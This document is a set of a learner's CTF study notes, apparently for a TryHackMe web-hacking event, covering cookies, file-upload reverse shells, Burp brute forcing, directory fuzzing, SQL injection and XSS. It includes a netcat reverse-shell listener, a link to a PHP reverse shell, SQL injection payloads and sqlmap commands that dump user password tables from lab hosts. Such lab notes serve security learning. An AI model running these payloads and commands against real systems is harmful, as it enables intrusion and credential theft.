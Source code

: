 DAY 1: COOKIES

	ADDITIONAL ROOMS:
		https://tryhackme.com/room/webfundamentals
	

DAY 2: URLs (GET VULNs)

	TOOLS:
		https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
	
	COMMANDS:
		gobuster (optional) -- find directory of uploaded content: 
			gobuster dir -u http://10.10.137.19 -w ~/infosec/wordlists/test.txt --wildcard
			
		netcat -- listen for reverse shell to phone home:
			sudo nc -lvnp 443
				NOTE: edit shell script prior to uploading
	
	ADDITIONAL ROOMS:
		https://tryhackme.com/room/uploadvulns
		https://tryhackme.com/room/introtoshells
	

DAY 3: BURPS

	Burp Proxy >> Intruder to brute force credentials from list

	TOOLS:
		https://portswigger.net/burp/communitydownload
		
	ADDITIONAL ROOMS:
	
	ADDITIONAL RESOURCES:
		https://github.com/danielmiessler/SecLists/
	
	READING:
		https://hackerone.com/reports/195163
		https://hackerone.com/reports/804548
		https://www.bleepingcomputer.com/news/security/15-percent-of-all-iot-device-owners-dont-change-default-passwords/
	
	
DAY 4: FUZZ	
	
	TOOLS:
		https://github.com/OJ/gobuster 
			(gvm needed for Go environment on WSL Ubuntu)
				https://github.com/moovweb/gvm
				gvm install go1.4 -B
				gvm use go1.4
				export GOROOT_BOOTSTRAP=$GOROOT
				gvm install go1.15.6
				gvm use go1.15.6 [--default]
		
		https://github.com/xmendez/wfuzz
			PREREQ:
				apt install libcurl4-openssl-dev libssl-dev
			THEN:
				python3 -m pip install wfuzz 
				export PATH=$PATH:/home/rem/.local/bin
		
	COMMANDS:
		gobuster:
			-u  	// specify URL
			-w  	// specify wordlist
			-x  	// specify file extensions
			
			gobuster dir -u http://10.10.60.156/ -w ~/infosec/wordlists/test.txt
		
		wfuzz:
			-c  	// colorized output
			-d  	// set parameters to fuzz (data is encoded for HTML)
			-z  	// fuzz database (e.g. -z file,big.txt)
			--hc	// ignore less than helpful http response codes (404, 200, etc)
			--hl	// don't show for a certian amount of lines??
			--hh	// don't show for a certain amount of characters??
			
			wfuzz -c -z file,wordlist.txt -d "date=FUZZ" -u http://10.10.60.156/api/site-log.php
	
	ADDITIONAL ROOMS:
		https://tryhackme.com/room/zthweb2
		https://tryhackme.com/room/ccpentesting
	
	ADDITIONAL RESOURCES:
		http://manpages.ubuntu.com/manpages/cosmic/man1/gobuster.1.html
		https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/big.txt
		


DAY 5: SQLi

	TOOLS:
		git clone --depth 1 <https://github.com/sqlmapproject/sqlmap.git> sqlmap-dev
	
	COMMANDS:
		SQLi:
			' or true -- 					// worked with blank username
			anything') or true -- 			// didn't work (only used in example site)
			' UNION SELECT username, password FROM users -- // didn't need to try
		
		SQLMap
			Get tables:
				./sqlmap.py -r ~/infosec/junk/finalsql --tamper=space2comment -p search --dbms sqlite --tables
			
			Get flag:
				./sqlmap.py -r ~/infosec/junk/finalsql --tamper=space2comment -p search --dbms sqlite -T hidden_table --dump

			Get password:
				./sqlmap.py -r ~/infosec/junk/finalsql --tamper=space2comment -p search --dbms sqlite -T users --dump		
	
	ADDITIONAL ROOMS:
		https://tryhackme.com/room/sqlibasics
	
	ADDITIONAL RESOURCES:
		https://www.codecademy.com/articles/sql-commands
		https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet
		https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
		https://github.com/payloadbox/sql-injection-payload-list
		https://alpinesecurity.com/blog/sqlmap-sucking-your-whole-database-through-a-tiny-little-straw/
			^^^
	

DAY 6: XSS

	Types of XSS attacks:
		Stored: content that persistently exists on the website and can be viewed by victims
			User posts, comments, images, etc
		Reflected: carried out directly in the HTTP request (and requires the attacker to do a bit more work)
			Links

	TOOLS:
		https://www.zaproxy.org/
		
	ADDITIONAL ROOMS: 
		https://tryhackme.com/room/learnowaspzap

	ADDITIONAL RESOURCES:
		https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Input_Validation_Cheat_Sheet.md
		https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
		https://github.com/payloadbox/xss-payload-list
